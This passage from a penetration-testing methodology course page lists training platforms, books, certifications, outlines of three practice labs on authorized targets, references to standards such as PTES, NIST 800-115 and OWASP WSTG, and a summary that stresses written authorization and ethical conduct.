- [PentesterLab](https://pentesterlab.com/) - Web penetration testing exercises
- [VulnHub](https://www.vulnhub.com/) - Vulnerable virtual machines

### Books and Publications

- **"The Web Application Hacker's Handbook"** by Dafydd Stuttard and Marcus Pinto
- **"Penetration Testing: A Hands-On Introduction to Hacking"** by Georgia Weidman
- **"The Hacker Playbook 3"** by Peter Kim
- **"Metasploit: The Penetration Tester's Guide"** by David Kennedy et al.

### Certifications

- **OSCP** (Offensive Security Certified Professional) - Practical penetration testing
- **GPEN** (GIAC Penetration Tester) - SANS penetration testing certification
- **CEH** (Certified Ethical Hacker) - Entry-level ethical hacking certification

## Hands-On Labs

### Lab 1: Scope Document Creation

**Objective**: Create a professional scope document for a penetration test.

**Scenario**: You've been hired to test a company's external infrastructure including their website and mail server.

**Requirements**:
1. Create detailed scope document
2. Define in-scope and out-of-scope targets
3. Create rules of engagement
4. Identify communication protocols

**Deliverable**: Complete scope and RoE document

### Lab 2: Reconnaissance Exercise

**Objective**: Practice passive and active reconnaissance techniques.

**Target**: Any legally authorized target (your own infrastructure, HackTheBox, etc.)

**Tasks**:
1. Perform WHOIS lookup
2. Enumerate subdomains
3. Identify technologies used
4. Map network ranges
5. Document findings

**Tools**: whois, dig, theHarvester, Shodan

### Lab 3: Complete Penetration Test

**Objective**: Conduct a full penetration test following PTES methodology.

**Platform**: TryHackMe or HackTheBox machine

**Requirements**:
1. Complete all PTES phases
2. Document findings at each phase
3. Create professional report
4. Include screenshots and evidence

**Deliverable**: Complete penetration test report

## References

### Official Documentation

1. **Penetration Testing Execution Standard (PTES)**
   - URL: http://www.pentest-standard.org/
   - Description: Comprehensive framework for penetration testing methodology
   - Key sections: Pre-engagement, Intelligence Gathering, Threat Modeling, Vulnerability Analysis, Exploitation, Post-Exploitation, Reporting

2. **NIST Special Publication 800-115**
   - Title: "Technical Guide to Information Security Testing and Assessment"
   - URL: https://nvlpubs.nist.gov/nistpubs/Legacy/SP/nistspecialpublication800-115.pdf
   - Description: Official US government guidelines for security testing

3. **OWASP Web Security Testing Guide (WSTG)**
   - URL: https://owasp.org/www-project-web-security-testing-guide/
   - Description: Comprehensive framework for testing web application security
   - Latest version: v4.2 (2021)

4. **OSSTMM - Open Source Security Testing Methodology Manual**
   - URL: https://www.isecom.org/OSSTMM.3.pdf
   - Description: Scientific methodology for security testing
   - Version: 3.0

### Legal and Compliance

5. **Computer Fraud and Abuse Act (CFAA)** - US federal law regarding unauthorized computer access
6. **Computer Misuse Act 1990** - UK legislation on computer security
7. **GDPR** - General Data Protection Regulation (data handling requirements)

### Industry Standards

8. **PCI DSS v4.0** - Payment Card Industry Data Security Standard (penetration testing requirements)
9. **ISO 27001** - Information security management
10. **CIS Controls** - Center for Internet Security critical security controls

### Research Papers

11. **"The Art of Software Security Assessment"** - Dowd, McDonald, Schuh (methodology for vulnerability analysis)
12. **"Penetration Testing Framework"** - vulnerabilityassessment.co.uk/Penetration%20Test.html

### Tools Documentation

13. **Metasploit Unleashed** - https://www.offensive-security.com/metasploit-unleashed/
14. **Nmap Network Scanning** - https://nmap.org/book/
15. **Burp Suite Documentation** - https://portswigger.net/burp/documentation

---

## Summary

Penetration testing methodology provides the structured framework necessary for professional, effective security assessments. Whether following PTES, NIST 800-115, or OWASP methodologies, the key principles remain constant:

1. **Systematic Approach**: Follow defined phases for comprehensive coverage
2. **Proper Authorization**: Always secure written permission before testing
3. **Documentation**: Maintain detailed records throughout the engagement
4. **Clear Communication**: Keep stakeholders informed at all stages
5. **Ethical Conduct**: Maintain high professional and ethical standards
6. **Actionable Reporting**: Provide clear, prioritized recommendations

By mastering penetration testing methodology, you ensure that your security assessments are thorough, repeatable, legally sound, and deliver maximum value to clients.

---

**Next Steps:**
- Review [Reconnaissance](reconnaissance.md) techniques in detail
- Practice [Enumeration](enumeration.md) methods
- Study [Exploitation](exploitation.md) techniques
- Learn [Post-Exploitation](post-exploitation.md) activities
- Master [Reporting](reporting.md) skills

**Related Topics:**
- [Red Teaming](../red-teaming/index.md) - Advanced adversary simulation
- [Vulnerability Research](../vulnerability-research/index.md) - Finding new vulnerabilities
- [Exploit Development](../exploit-development/index.md) - Creating custom exploits
